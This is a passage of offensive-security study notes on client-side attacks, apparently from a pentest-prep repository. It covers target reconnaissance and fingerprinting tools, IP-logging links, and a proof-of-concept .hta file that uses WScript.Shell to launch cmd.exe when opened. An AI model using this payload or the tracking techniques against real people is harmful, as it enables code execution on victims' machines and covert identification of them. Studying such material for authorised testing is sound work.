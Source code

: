 # Client-Side Attacks

## Index

- [Client Information Gathering](#client-information-gathering)
- [HTML applications](#html-applications)
- [Microsoft Office](#microsoft-office)
- [Windows Library Files](#windows-library-files)
- [Phishing](#phishing)
- [McAfee](#mcafee)

## Client Information Gathering

**Passive Client Information Gathering**
- Search with Google, social media and forum websites
- Search for IPs and other sensible information
- Search for file in the target's websites with `dirsearch` or `gobuster`, retrieve metadata from files
  - `exiftool -a -u brochure.pdf`

**Active Client Information Gathering**
- Make direct contact with the target machine or its users
  - Interaction with the target: Social engineering, require to click on a link, open an email, run an attachment, or open a document
  - [Social-Engineer Toolkit (SET)](https://www.trustedsec.com/tools/the-social-engineer-toolkit-set/)
- Client Fingerprinting
  - [Fingerprintjs2](https://github.com/fingerprintjs/fingerprintjs)
    - Change permissions on the `fp` directory `sudo chown www-data:www-data fp` to make `/fp/js.php` work
  - [Parse User Agents](https://developers.whatismybrowser.com/)
- Use [Canarytokens](https://canarytokens.org/generate) and Social Engineering to retrieve information from a target
- Use [Grabify IP Logger](https://grabify.link/)

## HTML applications

If a file is created with a `.hta` extension rather than a `.html` extension, Internet Explorer will automatically recognize it as an HTML Application and provide the option to run it using the mshta.exe application (still useful since many corporations rely on Internet Explorer).

**PoC.hta** leveraging ActiveXObjects
```HTML
<html>
	<head>
		<script>
			var c= 'cmd.exe'
			new ActiveXObject('WScript.Shell').Run(c);
		</script>
	</head>
	<body>
		<script>
			self.close();
		</script>
	</body>
</html>
```
